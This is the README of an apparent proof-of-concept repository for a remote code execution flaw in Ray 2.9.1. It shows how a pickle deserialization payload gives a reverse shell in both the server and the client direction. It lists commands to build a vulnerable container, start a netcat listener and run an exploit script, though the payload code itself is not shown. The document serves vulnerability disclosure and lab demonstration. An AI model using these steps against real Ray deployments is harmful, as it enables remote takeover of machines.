 # Ray 2.9.1 Deserialization Demo (Reverse Shell) - CWE-502

Report: https://huntr.com/bounties/ce6cb61c-fce1-406f-80e2-f3b7cdddbd6f

Resources:
   - https://docs.ray.io/en/latest/ray-overview/installation.html
   - https://github.com/ray-project/ray


## Overview
### Description
This is an RCE for Ray 2.9.1. The exploit is a deserialization attack that allows an attacker to execute arbitrary code on the target machine. The attack is bi-directional and is performed by sending a malicious serialized object to the client or server.

### Rating
The vulnerability has been rated as `Critical` with a CVSS score of `9.8`. This is because the vulnerability is remotely exploitable and allows an attacker to execute arbitrary code on the target machine.


## Commands - Server Exploit

The following set of commands are used to exploit the host running the `ray` service. The exploit is performed by sending a malicious serialized object from the client to the server. The object is deserialized by the server and the malicious payload is executed.

### Terminal 1 - Start the Service

Pull the image from dockerhub using `docker pull rayproject/ray:2.9.1` or build the image using the provided `Dockerfile`. Note, if the image is pulled from dockerhub, then the client python version must be `>=3.8` and the `ncat` command must be installed manually.

```bash
docker build -t ray-cwe-demo:2.9.1 --no-cache .
docker run -it -p 10001:10001 -p 10002:10002 -p 10003:10003 -p 10004:10004 -p 4321:4321 --add-host host.docker.internal:host-gateway --shm-size=4.43gb ray-cwe-demo:2.9.1
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack

The vulnerable method is `dumps_from_client` located in `ray/util/client/client_pickler.py`. By overwriting the `dumps_from_client` method, we can send a malicious payload to be executed on the server.

```bash
python3.8 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```


## Commands - Client Exploit

This set of commands are used to exploit the client who may be interacting with the `ray` service. The exploit is performed by sending a malicious serialized object from the server to the client. The object is deserialized by the client and the malicious payload is executed.

### Terminal 1 - Start the Service

Here we mount a modified version of `server_pickler.py` to the container. The modified file contains the malicious payload that will be executed on the client.

```bash
docker run -it \
  -p 10001:10001 \
  -p 10002:10002 \
  -p 10003:10003 \
  -p 10004:10004 \
  -p 4321:4321 \
  -v "$(pwd)/server_pickler.py:/home/ray/anaconda3/lib/python3.8/site-packages/ray/util/client/server/server_pickler.py" \
  --add-host host.docker.internal:host-gateway \
  --shm-size=4.43gb \
  ray-cwe-demo:2.9.1
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack

The vulnerable method is `dumps_from_server` located in `ray/util/client/server/server_pickler.py`. By overwriting the `dumps_from_server` method, we can send a malicious payload to be executed on the client.

```bash
python3.8 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```
